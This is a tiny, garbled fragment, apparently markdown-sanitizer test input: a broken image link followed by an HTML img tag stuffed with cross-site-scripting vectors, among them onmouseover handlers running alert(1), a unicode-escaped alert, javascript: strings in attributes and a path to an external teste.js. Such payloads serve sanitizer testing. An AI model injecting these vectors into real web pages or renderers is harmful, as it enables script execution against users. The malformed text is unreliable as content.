 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" id="%22javascript:alert(1)"/onmouseover='\u0061lert(1)' />



](()
